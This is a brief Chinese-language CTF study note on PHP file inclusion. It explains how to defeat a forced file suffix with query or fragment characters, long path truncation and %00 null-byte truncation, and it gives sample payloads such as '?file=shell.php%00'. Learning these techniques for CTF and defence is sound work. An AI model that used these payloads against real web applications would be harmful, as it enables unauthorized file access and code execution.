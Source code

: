 ##### 指定后缀绕过

- URL query或fragment绕过

  ```
  protocol :// hostname[:port] / path / [;parameters][?query]#fragment
  ```

   绕过强制添加的后缀   

  - query（?）

> ```
> [访问参数] ?file=http://localhost:8081/phpinfo.php?
> [拼接后]  ?file=http://localhost:8081/phpinfo.php?.txt
> ```

```
- fragment（#）
```

> [访问参数] ?file=http://localhost:8081/phpinfo.php%23
> [拼接后]  ?file=http://localhost:8081/phpinfo.php#.txt

- 长度截断   
  - php版本< 5.2.8
  - 原理：     
    - Windows下目录最大长度为256字节，超出的部分会被丢弃
    - Linux下目录最大长度为4096字节，超出的部分会被丢弃。
  - 利用方法(windows可直接用.截断)     
    - `?file=./././·······/./shell.php`
- %00截断   
  - magic_quotes_gpc = Off
  - php版本< 5.3.4
  - 利用方式     
    - ?file=shell.php%00

#### 参考文章

[CTF中文件包含漏洞总结](https://blog.csdn.net/qq_42181428/article/details/87090539?utm_medium=distrib)
 [php文件包含哪些,PHP文件包含小总结](https://blog.csdn.net/weixin_39714164/article/details/115726778)
 图源看雪论坛